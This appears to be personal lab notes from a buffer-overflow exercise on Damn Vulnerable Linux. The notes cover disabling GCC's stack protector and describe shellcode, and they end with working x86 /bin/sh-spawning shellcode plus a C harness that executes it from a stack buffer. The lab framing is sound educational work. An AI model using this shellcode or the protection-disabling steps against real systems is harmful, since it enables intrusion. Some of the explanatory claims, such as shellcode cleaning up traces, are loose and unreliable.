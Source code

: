 ```
```
on FC4 and FC5T1 systems, though on (On 2.6.14-1.1653_FC4smp) it didn't seem necessary.

On my approach I did use this:
(2) Stack Guard
The "Stack Guard" is a security mechanism implemented by the GCC compiler to prevent buffer overflow attacks. If this protection is present, buffer overflow attacks will not be successful. However, you can disable this protection by using the -fno-stack-protector switch when compiling the program. To illustrate, if you want to compile a program called example.c with Stack Guard disabled, you can use the following command:

I tried using this however on my third try using Damn Vulnerable Linux dvl version 1.3
Date of Release: 27 July 2007
Stack Guard doesnt work on it so I just regulary compile without using stack guard.

```
gcc -fno-stack-protector example.c
```
(3) Shellcode
>Shellcode is a small piece of code that is typically used as the payload in a buffer overflow attack. When a buffer overflow occurs, it can overwrite the return address on the stack with the address of the shellcode, which will then be executed.

>The specific shellcode used in a buffer overflow attack will depend on the target system, as it needs to be written to exploit the specific vulnerability being targeted. In general, shellcode will typically perform the following steps:

- 1.Set up the stack: Shellcode will typically set up the stack so that it points to the location of the shellcode itself, rather than to the original return address. This ensures that the shellcode will be executed when the function returns.

- 2.Spawn a shell: Once the stack has been set up, shellcode will typically use a system call or other mechanism to spawn a shell. This allows the attacker to interact with the compromised system.

- 3.Clean up: After the shell has been spawned, the shellcode will typically clean up any traces of its presence, such as deleting any temporary files that it created.

It's worth noting that writing shellcode can be a complex and specialized skill, and should only be attempted by experienced security professionals who have a deep understanding of both the target system and the underlying principles of buffer overflow attacks.

Here is my shellcode:
```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

const char code[] =
  "\x31\xc0"             /* xorl    %eax,%eax              */
  "\x50"                 /* pushl   %eax                   */
  "\x68""//sh"           /* pushl   $0x68732f2f            */
  "\x68""/bin"           /* pushl   $0x6e69622f            */
  "\x89\xe3"             /* movl    %esp,%ebx              */
  "\x50"                 /* pushl   %eax                   */
  "\x53"                 /* pushl   %ebx                   */
  "\x89\xe1"             /* movl    %esp,%ecx              */
  "\x99"                 /* cdq                            */
  "\xb0\x0b"             /* movb    $0x0b,%al              */
  "\xcd\x80"             /* int     $0x80                  */
;

int main(int argc, char **argv)
{
   char buf[sizeof(code)];
   strcpy(buf, code); // Use strcpy to copy the code into buf
   ((void(*)( ))buf)( );
}
```